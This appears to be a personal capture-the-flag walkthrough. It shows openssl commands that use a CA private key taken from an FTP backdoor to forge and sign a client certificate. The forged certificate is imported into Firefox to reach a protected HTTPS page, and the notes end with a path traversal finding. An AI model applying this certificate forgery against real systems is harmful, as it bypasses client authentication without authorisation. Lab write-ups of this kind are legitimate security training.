 ## Working to get the 443 working with cert we get on ftp backdoor

Download the cert of the site , save as ca.pem
![[Pasted image 20211201054135.png]]

FTP key and the web key are the same key (trust)

![[Pasted image 20211201054431.png]]
Md5sum
```bash
$ openssl x509 -in ca.pem -pubkey -noout | md5sum; \
> openssl pkey -in ca.key -pubout | md5sum
71e2b2ca7b610c24d132e3e4c06daf0c  -
71e2b2ca7b610c24d132e3e4c06daf0c  
```

## Generate a client key
```bah
$ openssl genrsa -out client.key 4096
```

### Create Sign Request
```bash
$ openssl req -new -key client.key -out client.csr
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:NY
Locality Name (eg, city) []:NYC
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Eris
Organizational Unit Name (eg, section) []:Black Eris
Common Name (e.g. server FQDN or YOUR name) []:dix
Email Address []:dix@dix.eris

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:
An optional company name []
```

### Sign the Certificate
```bash
$ openssl x509 -req -in client.csr -CA ca.pem -CAkey ca.key -set_serial 9001 -extensions client -days 9002 -outform PEM -out client.cer
Signature ok
subject=C = US, ST = NY, L = NYC, O = Eris, OU = Black Eris, CN = dix, emailAddress = dix@dix.eris
Getting CA Private Ke
```

### Firefox can't import this extension, has to be pkcs12
```bash
$ openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
Enter Export Password:
Verifying - Enter Export Password:
```

### import the p12 certificate to firefox
![[Pasted image 20211201071546.png]]

![[Pasted image 20211201071612.png]]


### Now have acess to the https page
![[Pasted image 20211201071631.png]]

### Trying Path Traversal by editing the PATH variable
![[Pasted image 20211201072814.png]]

* Vulnerable to PATH Traversal
![[Pasted image 20211201072845.png]]
